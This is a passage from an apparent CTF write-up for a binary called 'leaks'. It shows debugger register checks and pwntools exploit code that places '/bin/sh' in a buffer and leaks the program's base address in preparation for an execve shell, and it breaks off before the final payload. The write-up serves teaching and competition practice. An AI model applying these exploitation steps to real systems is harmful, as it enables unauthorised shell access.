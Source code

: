 While here checkout `$rdx` and `$rsi`.  Both need to be set to `0` before our `execve` syscall:

```
$rdx   : 0x0
$rsp   : 0x00007fffffffe320  →  0x0000000000000000
$rbp   : 0x00007fffffffe340  →  0x0000000000000000
$rsi   : 0x10
```

Good, `$rdx` is zero and it will continue to be zero (check it by setting a breakpoint at `leave`).  Finding `pop rdx` in small binaries is not easy.  We'll need this gift for our exploit.


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./leaks')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1009)

p.recvuntil('goodbye, Mr. Anderson.\n')
```

### `/bin/sh` as `name`

```python
p.sendline('8')
p.sendline('/bin/sh\0')
```

I didn't test if the null at the end was required or not, but best to be safe.


### Leak base process address

```python
p.sendline('8')
p.sendline(8 * 'A')
p.recvline()
_ = p.recv(5)
_start = u64(b'\0' + _ + b'\0\0')
log.info('_start: ' + hex(_start))
binary.address = _start - binary.sym._start
log.info('binary.address: ' + hex(binary.address))
log.info('name ' + hex(binary.sym.name))
```

